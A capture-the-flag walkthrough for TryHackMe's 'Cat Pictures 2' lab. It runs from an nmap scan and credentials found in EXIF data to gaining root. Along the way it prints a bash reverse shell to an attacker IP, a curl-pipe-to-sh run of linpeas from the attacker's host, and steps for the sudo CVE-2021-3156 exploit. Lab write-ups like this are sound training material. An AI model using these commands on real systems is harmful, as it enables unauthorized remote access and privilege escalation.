# Cat Pictures 2 - Tryhackme

```bash
┌──(kali㉿kali)-[~/Documents/THM/cat_pictures2]
└─$ nmap -A 10.10.69.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 10:16 EDT
Nmap scan report for 10.10.69.103
Host is up (0.24s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33f0033626368c2f88952cacc3bc6465 (RSA)
|   256 4ff3b3f26e0391b27cc053d5d4038846 (ECDSA)
|_  256 137c478b6ff8f46b429af2d53d341352 (ED25519)
80/tcp    open     http        nginx 1.4.6 (Ubuntu)
|_http-title: Lychee
| http-robots.txt: 7 disallowed entries 
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
|_http-server-header: nginx/1.4.6 (Ubuntu)
| http-git: 
|   10.10.69.103:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/electerious/Lychee.git
|_    Project type: PHP application (guessed from .gitignore)
222/tcp   open     ssh         OpenSSH 9.0 (protocol 2.0)
| ssh-hostkey: 
|   256 becb061f330f6006a05a06bf065333c0 (ECDSA)
|_  256 9f0798926efd2c2db093fafee8950c37 (ED25519)
1272/tcp  filtered cspmlockmgr
3000/tcp  open     ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-store, no-transform
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: i_like_gitea=2a0bb8e86e1e5125; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=wEZSiky2VxB6Kyjo881WUN66oII6MTY4ODIyMTIzODQ5MjY1NTY0NQ; Path=/; Expires=Sun, 02 Jul 2023 14:20:38 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 01 Jul 2023 14:20:38 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title> Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Cache-Control: no-store, no-transform
|     Set-Cookie: i_like_gitea=c48e60e2b5cf708a; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=r3aI8YQDXXAYICpM6M8sXGC07tM6MTY4ODIyMTI0NDc3Mjg3MDUyNQ; Path=/; Expires=Sun, 02 Jul 2023 14:20:44 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 01 Jul 2023 14:20:44 GMT
|_    Content-Length: 0
8080/tcp  open     http        SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
14000/tcp filtered scotty-ft
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=7/1%Time=64A03636%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(GetRequest,2DE8,"HTTP/1\.0\x20200\x20OK\r\nCache-Control:\
SF:x20no-store,\x20no-transform\r\nContent-Type:\x20text/html;\x20charset=
SF:UTF-8\r\nSet-Cookie:\x20i_like_gitea=2a0bb8e86e1e5125;\x20Path=/;\x20Ht
SF:tpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csrf=wEZSiky2VxB6Kyjo881WUN6
SF:6oII6MTY4ODIyMTIzODQ5MjY1NTY0NQ;\x20Path=/;\x20Expires=Sun,\x2002\x20Ju
SF:l\x202023\x2014:20:38\x20GMT;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cooki
SF:e:\x20macaron_flash=;\x20Path=/;\x20Max-Age=0;\x20HttpOnly;\x20SameSite
SF:=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate:\x20Sat,\x2001\x20Jul\x2
SF:02023\x2014:20:38\x20GMT\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en-
SF:US\"\x20class=\"theme-\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\t<title>\x20Gitea:\x20Git\x20with\x20a\x20cup\x20of\x20tea</t
SF:itle>\n\t<link\x20rel=\"manifest\"\x20href=\"data:application/json;base
SF:64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUi
SF:OiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2x
SF:vY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi")%r(Help,67,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOpt
SF:ions,1C2,"HTTP/1\.0\x20405\x20Method\x20Not\x20Allowed\r\nCache-Control
SF::\x20no-store,\x20no-transform\r\nSet-Cookie:\x20i_like_gitea=c48e60e2b
SF:5cf708a;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nSet-Cookie:\x20_csr
SF:f=r3aI8YQDXXAYICpM6M8sXGC07tM6MTY4ODIyMTI0NDc3Mjg3MDUyNQ;\x20Path=/;\x2
SF:0Expires=Sun,\x2002\x20Jul\x202023\x2014:20:44\x20GMT;\x20HttpOnly;\x20
SF:SameSite=Lax\r\nSet-Cookie:\x20macaron_flash=;\x20Path=/;\x20Max-Age=0;
SF:\x20HttpOnly;\x20SameSite=Lax\r\nX-Frame-Options:\x20SAMEORIGIN\r\nDate
SF::\x20Sat,\x2001\x20Jul\x202023\x2014:20:44\x20GMT\r\nContent-Length:\x2
SF:00\r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 338.60 seconds
```

we can see that it is running

* 80 — lychee
* 8080 — python http server
* 3000 — gitea



There is a hint in the first image

Press enter or click to view image in full size



the description tells us that exif data present in the image

let’s download the image and use exif tool to extract the data



we found a note on that path

```text
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: <Password to gitea>

ansible runner (olivetin): port 1337
```

we got the password for gitea and we also know that ansible is running in port 1337.

After logging in to gitea we found the first flag





when I run ansible playbook from port 1337 the code in gitea is executed. I tried changing the code it gitea and we can see it runs the code in the logs

Press enter or click to view image in full size



now let’s replace the code command with a reverse shell we found in revshells.com

```bash
bash -c "bash -i >& /dev/tcp/10.17.54.133/9000 0>&1"
```



Run the script from 1337’s web interface and wait for sometime

we got the shell



Use linpeas to for privilege escalation.

Download the linpeas.sh to your machine and use http server to serve the linpeas.sh

```bash
python3 -m http.server 
```

use curl to run the script in the vulnerable box

```bash
curl -L http://10.17.54.133:8000/linpeas.sh | sh
```



we have a vulnerable sudo version here.

use the expliot : [vulnerable sudo version](https://github.com/blasty/CVE-2021-3156)

clone the code and compress it so that can be sent to the vulnerable machine

```bash
git clone https://github.com/blasty/CVE-2021-3156

tar -cvf exploit.tar CVE-2021-3156

python3 -m http.server
```

## Download and extract



```bash
cd /tmp

wget http://10.17.54.133:8000/exploit.tar

tar xopf exploit.tar
```

compile and run the exploit

build:

```bash
$ make
```

list targets:

```bash
$ ./sudo-hax-me-a-sandwich
```

run:

```bash
$ ./sudo-hax-me-a-sandwich 0
```



and now we have pwned the machine